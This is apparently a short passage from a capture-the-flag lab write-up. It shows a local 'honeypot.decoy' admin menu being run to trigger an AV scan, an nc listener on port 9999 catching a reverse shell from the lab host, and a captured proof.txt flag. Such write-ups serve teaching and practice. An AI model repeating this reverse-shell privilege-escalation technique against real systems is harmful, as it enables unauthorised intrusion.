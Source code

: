 Next we have execute the `honeypot.decoy` file and choose to run the AV scan.

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------
```

After a few seconds, we can check back on our `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.241.85] 47976
```

### proof.txt

```
cat proof.txt
22b19a30de456b8bd19ead376f754b3d
```
